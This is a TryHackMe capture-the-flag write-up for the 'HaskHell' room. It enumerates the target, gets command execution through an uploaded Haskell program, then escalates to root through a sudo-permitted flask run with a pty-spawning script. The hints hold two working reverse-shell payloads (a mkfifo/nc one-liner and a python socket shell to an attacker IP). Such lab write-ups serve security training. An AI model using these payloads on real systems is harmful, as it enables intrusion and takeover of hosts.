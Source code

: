 
# TryHackMe(THM) - HaskHell  - WriteUp

> Austin Lai | August 6th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - HaskHell](https://tryhackme.com/room/haskhell)

Difficulty: **Medium**

You will learn basic knowledge and understanding of Haskell and get to know python - flask.

<!-- /Description -->

<br />

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - HaskHell  - WriteUp](#tryhackmethm---haskhell----writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
        - [User Flag](#user-flag)
        - [Root flag](#root-flag)

<!-- /TOC -->

<br />

## Task 1

### User Flag

For start, let get basic enumeration --- starting nmap and gobuster

Nmap result:

```text
Nmap scan report for 10.10.3.221
Host is up, received timestamp-reply ttl 61 (0.35s latency).
Scanned at 2021-08-06 17:46:07 Malay Peninsula Standard Time for 128s
Not shown: 4998 closed ports
Reason: 4998 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5001/tcp open  http    syn-ack ttl 61 Gunicorn 19.7.1
```

Gobuster result:

![gobuster-result](gobuster-result.png)

Let check out on the site !

Main page:

![main-page](main-page.png)

Homework:

![homework-page](homework-page.png)

Uploads:

![uploads-page](uploads-page.png)

However, if you get gobuster result, you will get the below page:

![gobuster-result-page](gobuster-result-page.png)

Next, let get some basic understand of Haskell !

Specifically, research on how Haskell can invoke shell command.

If you haven't figure out, check out the hint given

<details><summary>Hint 1</summary>

[Haskell System Command](https://hackage.haskell.org/package/process-1.0.1.3/docs/System-Cmd.html)

</details>

<br />

Let's put it in practical ! Create a haskell shell script and submit to the link !

<details><summary>Hint 2</summary>

```haskell
import System.Cmd
 
main = system "ls"
```

</details>

<br />

Yeah, turn out with simple haskell script, we can execute command !

![haskell-script-execute-command](haskell-script-execute-command.png)

Next ! Let get reverse shell, shall we ?

<details><summary>Hint 3</summary>

```haskell
{-|
old system call
-}
    
import System.Cmd

main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOU_IP 8888 >/tmp/f"
```

```haskell
{-|
newer system call
-}
    
import System.Process

main = do
    callCommand "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.2.85",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
    
```
</details>

<br />

And yes ! we get our reverse shell

![flask-reverse-shell](flask-reverse-shell.png)

Next, let's do some basic enum on the machine.

You will notice aside flask, there is another user available.

Check out what you can find.

<details><summary>Hint 4</summary>

```text
Check out the ssh, is there anything you can get?
```

</details>

<br />

Once you get the file, you will be able to login to the system!

Yeah, you get the user flag.

<br />

### Root flag

Let's do enum again.

<details><summary>Hint 1</summary>

```text
Have you check sudo?
```

<details><summary>Hint 2</summary>

![prof-sudo-l](prof-sudo-l.png)

</details>

</details>

Once you get the possible PrivEsc exploit ...

Let's check out how you can use flask to get PrivEsc ! Google and research !!!

<details><summary>Hint 3</summary>

```text
That's right !

You can create a python shell script as flask using python.

Set the FLASK_APP to the shell you created
```

<details><summary>Hint 4</summary>

shell.py

```python
import pty
pty.spawn('/bin/bash')
```

</details>

<details><summary>Hint 5</summary>

![flask-privesc](flask-privesc.png)

</details>

</details>

And yes, you get the root flag !

<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB




